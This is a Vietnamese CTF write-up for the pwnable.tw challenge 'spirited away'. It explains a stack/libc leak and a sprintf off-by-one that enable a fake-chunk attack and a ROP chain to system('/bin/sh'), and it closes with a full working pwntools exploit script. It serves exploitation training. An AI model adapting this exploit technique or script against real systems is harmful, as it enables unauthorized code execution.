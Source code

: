 # spirited away (pwnable.tw)

# challenge này thực sự khá hay nhưng mà phải tính toán hơi nhiều

## RE 
Sau khi RE và soi code của challenge này thì ko có gì nhiều, chương trình đọc vào một số chuỗi và biến, đồng thời cũng check length input khá chắc chắn nên sẽ không có lỗi BOF

Debug một hồi thì mk phát hiện ra lỗi ở hai dòng này

![RE1.PNG](https://cdn.hashnode.com/res/hashnode/image/upload/v1624266371479/qLlwucODm.png)
* Do chuỗi s không có kí tự kết thúc chuỗi, nên khi put(s) chương trình sẽ in stack đến khi gặp byte \x00  
=> leak được 3 địa chỉ gồm : ebp, ret_address, và địa chỉ của lib  
=> tính được địa chỉ của stack , system, bin_sh  

![RE2.PNG](https://cdn.hashnode.com/res/hashnode/image/upload/v1624266357593/UYhXVpJSs.png)

Lỗi số 2 đó chính là nằm ở hàm sprintf, ta thấy biến s là một mảng gồm 56 kí tự, chuỗi format truyền vào đã gồm 56 kí tự bao gồm cả biến counter
* Nếu biến counter là số  có 3 chữ số thì chuỗi s sẽ gồm 57 kí tự, tràn một kí tự 'n' xuống phần lưu giá trị của biến name_size  
=> name_size = 0x3c sẽ bị ghi đè thành name_size = 0x6e  
![RE3.PNG](https://cdn.hashnode.com/res/hashnode/image/upload/v1624266381228/algB98vHp.png)
* mặt khác, biến comment cũng đọc vào name_size kí tự => khi nhập 0x6e kí tự thì sẽ overwrite được giá trị của age, địa chỉ trên heap của name ở trên stack và ở cuối chương trình sẽ free(name_address), malloc(name_address) => tận dụng để tạo fake chunk 
## content to exploit
* leak : libc base, stack_address => tính system address và địa chỉ của 'why did you came to see this movie?'(movie_name) ở trên stack  
* lặp lại nhiều lần tăng biến counter > 100
* tạo một fake chunk cho biến name ở trên stack, fake chunk này được tạo bằng input của movie_name
* nhập input cho comment, overwrite địa chỉ của biến name bằng địa chỉ của movie_name (địa chỉ của fake chunk)
* sau khi chương trình free(movie_name), malloc(movie_name) thì lúc này, biến name thay vì được lưu trên heap thì h được lưu trên stack với địa chỉ của movie_name
* Độ dài của name là 0x6e => overwrite retaddr
* control EIP bằng ROP => get shell  

```python
from pwn import *

# conn = process('./spirited_away_patched')
conn = remote('chall.pwnable.tw', 10204)
libc = ELF('./libc_32.so.6')

libc_offset = 0x1b0d60
# def main_func(name):
    

# main_func('a'*20)
conn.recvuntil('name: ')
conn.sendline('a'*20)
conn.recvuntil('age: ')
conn.sendline('18')
conn.recvuntil('movie? ')
conn.sendline('c'*79)
conn.recvuntil('comment: ')
conn.sendline('a'*59)

print(conn.recvline())
print(conn.recvline())
print(conn.recvline())
print(conn.recvline())

recv = conn.recvline()
stack_leak = int.from_bytes(recv[:4], byteorder='little') - 0x60
libc_base = int.from_bytes(recv[8:12], byteorder='little') - libc_offset
bin_sh_addr = libc_base + 0x158e8b
log.info('stack address: %#x'% stack_leak)
log.info('libc base address: %#x' % libc_base)
log.info('/bin/sh address %#x' % bin_sh_addr)
conn.recvuntil('<y/n>:')
conn.sendline('y')

for i in range(9):
    conn.sendafter('Please enter your name: ', 'a\0')
    conn.sendafter('Please enter your age: ', '1\n')
    conn.sendafter('Why did you came to see this movie? ', 'c\0')
    conn.sendafter('Please enter your comment: ', 'd\0')
    conn.sendafter('Would you like to leave another comment? <y/n>: ', 'y')

for i in range(90):
    conn.sendafter('Please enter your age: ', '1\n')
    conn.sendafter('Why did you came to see this movie? ', 'c\0')
    conn.sendafter('Would you like to leave another comment? <y/n>: ', 'y')

conn.recvuntil('name: ')
conn.sendline('a\0')
conn.recvuntil('age: ')
conn.sendline('1\n')
conn.recvuntil('movie? ')
# input('?')
conn.send(b'a'*8 + p32(0) + p32(0x41) + b'a'*56 + p32(0) + p32(0x11)) # create fake chunk
conn.recvuntil('comment: ')
# input('?')
conn.send(b'b'*80 + p32(0x1) + p32(stack_leak)) #over write name_address with comment address
conn.recvuntil('n>: ')
conn.sendline('y')

conn.recvuntil('name: ')
conn.sendline(b'a'*68 + p32(libc_base + libc.symbols['system']) + p32(libc_base + libc.symbols['exit']) + p32(bin_sh_addr))
conn.recvuntil('age: ')
conn.sendline('1\n')

conn.recvuntil('movie? ')
conn.sendline('n')
conn.recvuntil('comment: ')
conn.sendline('aaa')
conn.recvuntil('n>: ')
conn.sendline('n')
conn.interactive()
```
**Thanks you for reading**